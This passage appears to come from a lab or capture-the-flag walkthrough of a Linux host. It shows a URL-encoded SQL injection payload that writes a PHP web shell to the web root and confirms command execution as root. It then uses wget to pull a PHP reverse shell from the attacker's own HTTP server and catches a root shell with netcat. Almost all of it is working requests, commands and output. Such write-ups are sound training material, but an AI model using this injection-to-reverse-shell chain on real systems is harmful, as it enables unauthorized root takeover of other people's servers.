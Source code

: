 Note that we have a trailing space at the end of the payload. Let's run this query with Burp.

```
POST /issue/checkByPriority?priority=Normal%27+UNION+SELECT+%27%3C%3Fphp+echo+exec%28%24_GET%5B%22cmd%22%5D%29%3B%27+INTO+OUTFILE+%27%2Fsrv%2Fhttp%2Fcmd.php%27%3B+--+ HTTP/1.1
Host: 192.168.120.130:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=E408CE3E9BBBEC15DCAD194F380E68A9
Upgrade-Insecure-Requests: 1
```

If everything goes well, we can confirm that the file was created (we'll remember that the web server that leaked the **phpinfo.php** file was on port 30455).

```
kali@kali:~$ curl "http://192.168.120.130:30455/cmd.php?cmd=id" 
...
uid=0(root) gid=0(root) groups=0(root)   
```

Perfect, we have command execution. Even better, the server is running as `root`.

Let's create a reverse shell. We'll create a copy of **/usr/share/webshells/php/php-reverse-shell.php**, edit the IP and port, and then start a web server to transfer it.

```
kali@kali:~$ cp /usr/share/webshells/php/php-reverse-shell.php rev.txt
kali@kali:~$ vim rev.txt
...
```

```
kali@kali:~$ sudo python3 -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

We'll navigate to the following URL to transfer the file.

```
kali@kali:~$ curl 'http://192.168.120.130:30455/cmd.php?cmd=wget http://192.168.118.3:443/rev.txt -O /srv/http/rev.php'
```

With the shell transferred, we can start a listener and access the file to receive the final shell.

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
```

```
kali@kali:~$ curl http://192.168.120.130:30455/rev.php
```

```
kali@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.130] 56404
Linux hawat 5.10.14-arch1-1 #1 SMP PREEMPT Sun, 07 Feb 2021 22:42:17 +0000 x86_64 GNU/Linux
 00:12:32 up 15 min,  1 user,  load average: 0.09, 0.04, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0     23:59    6:56   0.01s  0.01s -bash
uid=0(root) gid=0(root) groups=0(root)
sh: cannot set terminal process group (479): Inappropriate ioctl for device
sh: no job control in this shell
sh-5.1# 
```
